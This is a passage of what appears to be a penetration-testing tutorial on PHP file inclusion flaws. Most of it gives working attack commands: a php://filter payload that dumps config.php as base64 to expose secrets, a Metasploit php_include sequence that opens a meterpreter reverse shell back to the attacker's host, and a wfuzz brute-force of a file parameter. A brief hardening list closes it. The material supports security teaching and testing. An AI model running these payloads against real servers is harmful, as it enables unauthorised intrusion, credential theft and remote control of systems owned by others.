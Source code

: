  You can also use PHP Wrappers for deeper exploitation:
```
vulnerable.php?file=php://filter/convert.base64-encode/resource=config.php
```
Then decode the base64 output to view sensitive information.

---

## 3️ Exploit RFI Using Metasploit
###  Use Metasploit to Get a Reverse Shell
1. Start Metasploit:
   ```bash
   msfconsole
   ```
2. Use the RFI Exploit Module:
   ```bash
   use exploit/unix/webapp/php_include
   ```
3. Set the target URL:
   ```bash
   set TARGETURI /vulnerable.php?file=
   set RHOSTS target.com
   set PAYLOAD php/meterpreter/reverse_tcp
   set LHOST your-ip
   set LPORT 4444
   exploit
   ```
 If successful, you will get a Meterpreter shell, allowing you to execute commands on the server!

---

## Automate LFI & RFI with Fuzzing
Use wfuzz to brute-force file inclusion:
```bash
wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --hc=404 "http://target.com/vulnerable.php?file=FUZZ"
```
 This will find accessible files and possible LFI/RFI entry points.

---

##  How to Stay Secure?
- Sanitize user input (use `basename()` and `realpath()`).
- Disable `allow_url_include` in `php.ini`:
  ```ini
  allow_url_include = Off
  ```
- Use web application firewalls (e.g., ModSecurity).
- Monitor logs for suspicious requests.

---
